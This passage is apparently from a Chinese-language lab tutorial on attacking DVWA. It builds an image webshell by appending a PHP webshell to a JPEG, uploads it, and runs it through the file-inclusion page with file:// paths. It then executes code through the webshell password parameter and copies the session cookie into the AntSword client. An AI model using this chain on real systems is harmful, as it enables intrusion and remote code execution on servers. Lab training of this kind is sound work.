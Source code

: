 合并生成新文件

```
G:\>copy xuegod.jpg/b + webshell.php/a hello.jpg
```

> 此时生成的 hello.jpg 含有 webshell.php 的代码

在 ` File Upload` 上传图片马

```
../../hackable/uploads/hello.jpg
```

进入 `File Inclusion` ，拼接 url

```
http://192.168.1.76/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/uploads/hello.jpg
```

```
http://centos7-6.local/dvwa/vulnerabilities/upload/?page=file:///var/www/html/dvwa/hackable/uploads/201457119579.jpg
```

```
http://centos7-6.local/dvwa/vulnerabilities/upload/?page=file:///var/www/html/dvwa/hackable/uploads/201457119579.jpg
```

```
../../hackable/uploads/201457119579.jpg
```

> 使用 file 协议和绝对路径

利用密码执行代码

```
xuegod=phpinfo();
```

> 会在代码插入的地方显示反馈

**在蚁剑中执行 payload 需要加入 Cookie 请求头**

在目标页面获取 Cookie

```
>document.cookie
'PHPSESSID=mm8prcunm801p1hb0bqjv7ig47; security=high'
```

将 Cookie 写入蚁剑请求信息即可

![将 Cookie 写入蚁剑请求信息](./../../../images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/%E5%B0%86%20Cookie%20%E5%86%99%E5%85%A5%E8%9A%81%E5%89%91%E8%AF%B7%E6%B1%82%E4%BF%A1%E6%81%AF.png)

>要去掉单引号
